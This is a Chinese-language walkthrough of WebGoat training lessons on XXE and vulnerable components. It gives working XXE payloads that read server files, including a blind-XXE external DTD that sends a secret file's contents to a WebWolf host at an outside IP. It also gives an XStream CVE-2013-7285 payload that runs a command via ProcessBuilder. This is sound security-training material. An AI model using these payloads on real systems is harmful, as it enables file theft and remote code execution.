

## (A5) Security Misconfiguration
### 1. XXE
+ 1-4, 这关是需要通过XXE获取服务器的root目录，我们先提交一个看看请求，
  
可以看到是xml提交的，获取目录可以用file://协议：
```
<?xml version="1.0"?>
<!DOCTYPE author [
  <!ENTITY ls SYSTEM "file:///">
]>
<comment>  <text>&ls;</text></comment>
```


+ 1-7,这关目标跟上关一样，但是这关提交数据的格式是json，所以不能直接XXE注入，但是如果开发者不做限制的话，改content-type，也是可以用xml的。所以这关直接改content-type

+ 1-11,这关比较复杂，需要通过XXE盲注获取服务器的一个文件，然后将文件里的内容填入评论。这里要借助webwolf.思路是这样的，先上传一个dtd文件到webwolf,内容如下：
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/admintest/secret.txt">
<!ENTITY % print "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file;'>">
```
这个文件实现的是 读取文件服务器secret的内容，然后将这个内容通过http请求到webwolf。到时候就可以在wolf看到。然后再请求里注入触发这个dtd.
```
<?xml version="1.0"?>
<!DOCTYPE author [
  <!ENTITY % ls SYSTEM "http://119.3.108.215:9090/WebWolf/files/admintest/attack1.dtd">
%ls;
%print;
%send;
]>
<comment>  <text>
aaaaa</text></comment>
```

再看webwolf,可以看到secret的内容，这是url编码后的，解码即可：



## (A6) Vuln & Outdated Components
### 1. Vulnerable Components
+ 1-5，这里主要是展示同一个组件不同版本会有不同的问题，以jquery-ui为例，这关直接点击即可。

+ 1-12，这关是要根据漏洞[CVE-2013-7285](https://nvd.nist.gov/vuln/detail/CVE-2013-7285) 
 是想远程执行命令，
```
<contact class='dynamic-proxy'>
<interface>org.owasp.webgoat.lessons.vulnerablecomponents.Contact</interface>
  <handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
      <command>
        <string>pwd</string>
      </command>
    </target>
    <action>start</action>
  </handler>
</contact>
```


